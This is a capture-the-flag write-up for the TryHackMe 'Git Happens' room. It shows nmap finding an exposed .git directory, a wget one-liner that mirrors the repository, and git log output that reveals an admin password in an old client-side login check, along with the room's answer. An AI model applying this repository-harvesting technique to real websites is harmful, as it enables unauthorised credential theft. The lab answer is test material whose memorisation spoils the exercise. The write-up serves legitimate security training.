


# Git Happens

**Date:** 24, May, 2021

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/githappens) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
nmap -sC -sV -oN nmap-initial 10.10.57.41
Nmap scan report for 10.10.57.41
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.57.41:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 24 20:34:18 2021 -- 1 IP address (1 host up) scanned in 15.89 seconds
```



### Git folder
- By running common scripts, `nmap` found that **.git** folder is being exposed.



---

## Downloading .git folder

- Previously I used some git related tools to download the contents of **.git folder**.
- But I found a fancy one liner using `wget` (recursive download):

```bash
$ wget --mirror -I .git http://10.10.57.41/.git/

[..snip..]
--2021-05-24 20:39:30--  http://10.10.57.41/.git/logs/refs/heads/master
Connecting to 10.10.57.41:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 216 [application/octet-stream]
Saving to: ‘10.10.57.41/.git/logs/refs/heads/master’

10.10.57.41/.git/logs/refs/heads/ 100%[===========================================================>]     216  --.-KB/s    in 0s      

2021-05-24 20:39:30 (9.23 MB/s) - ‘10.10.57.41/.git/logs/refs/heads/master’ saved [216/216]

FINISHED --2021-05-24 20:39:30--
Total wall clock time: 16s
Downloaded: 100 files, 60K in 0.003s (22.2 MB/s)
```

---

## Analysing Git logs

- By seeing the logs, we find a commit which performs **SHA-512 hashing** and **Obfuscation**.

```bash
root@kali:~/TryHackMe/git_happens/10.10.57.41# git log
[..snip..]
commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isnt enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

[..snip..]
```

---

## Analysing to commited code

- Let's look through the code using `git log --patch`, we could find the **SHA 512 hash** of admin password.
- May be if we scroll further, we can find unhashed commit too!

```bash
root@kali:~/TryHackMe/git_happens/10.10.57.41# git log --patch
[..snip..]

- if (
-          username === 'admin' &&
-          passwordHash === 'HASHED_PASSWORD'
-        ) {
-          document.cookie = "login=1";
-          window.location.href = "/dashboard.html";
-        } else {
-          document.getElementById("error").innerHTML =
-            "INVALID USERNAME OR PASSWORD!";
-        }
-      }

[..snip..]
```

- We can find the password of the admin:

```js
[..snip..]

-        if (
-          username === "admin" &&
-          password === "SUPER_SECRET_PASSWORD"
-        ) {
-          document.cookie = "login=1";
-          window.location.href = "/dashboard.html";
-        } else {
-          document.getElementById("error").innerHTML =
-            "INVALID USERNAME OR PASSWORD!";
-        }

[..snip..]
```

### Find the Super Secret Password
- **Answer:** SUPER_SECRET_PASSWORD

---